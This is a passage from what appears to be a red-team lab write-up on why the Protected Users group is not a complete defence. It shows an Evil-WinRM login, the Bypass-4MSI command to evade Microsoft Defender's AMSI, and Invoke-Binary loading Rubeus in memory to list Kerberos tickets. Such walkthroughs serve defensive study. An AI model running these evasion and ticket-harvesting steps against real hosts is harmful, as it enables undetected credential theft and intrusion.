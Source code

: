 ![Login from Kali to SRV01-WS16 with Evil-WinRM](/assets/posts/2023-05-03-ProtectedUsers_NotASilverBullet/07_WinRMLogin.png)
_Login from Attacker to SRV01-WS16 with Evil-WinRM_

Next, we will use [Rubeus](https://github.com/GhostPack/Rubeus) to look for Kerberos tickets on our target and extract the interesting one. We know that Microsoft Defender Antivirus (MDAV) is enabled and up to date on this machine, so we cannot just drop and use a well-known tool like *Rubeus.exe* on this system, we have to find a way to avoid detection. First, we will enable the `Bypass-4MSI` feature from *Evil-WinRM*, so we can execute the next commands without being detected by MDAV. Then, we will use `Invoke-Binary` from *Evil-WinRM*, to load *Rubeus.exe* in memory, uploaded from our attacking machine, with the command `triage` to list the Kerberos tickets on the target:
```powershell
Bypass-4MSI
```
{: .nolineno }

![Bypassing AMSI with Evil-WinRM built-in feature](/assets/posts/2023-05-03-ProtectedUsers_NotASilverBullet/08_WinRMBypassAMSI.png)
_Bypassing AMSI with Evil-WinRM built-in feature_

```powershell
Invoke-Binary /opt/microsoft/Rubeus.exe triage
```
{: .nolineno }
